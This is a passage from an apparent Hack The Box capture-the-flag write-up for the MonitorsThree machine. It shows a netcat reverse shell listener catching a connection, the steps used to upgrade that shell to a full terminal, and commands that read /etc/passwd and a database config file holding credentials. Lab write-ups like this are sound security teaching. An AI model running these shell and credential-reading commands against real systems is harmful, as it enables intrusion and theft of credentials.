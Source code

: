 ![](assets/img/htb-writeup-monitorsthree/monitorsthree3_3.png)

```terminal
	... connect to [10.10.16.84] from (UNKNOWN) [10.10.11.30] 43266

$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@monitorsthree:/$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/htb/machines/monitorsthree:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@monitorsthree:/$ export TERM=xterm
www-data@monitorsthree:/$ export SHELL=bash

/home/kali/Documents/htb/machines/monitorsthree:-$ stty size
42 86

www-data@monitorsthree:/$ stty rows 42 columns 86

www-data@monitorsthree:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
www-data@monitorsthree:/$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
marcus:x:1000:1000:Marcus:/home/marcus:/bin/bash
```

Encuentro credenciales para una base de datos MySQL.

```terminal
www-data@monitorsthree:/$ cat /var/www/html/app/admin/db.php
```
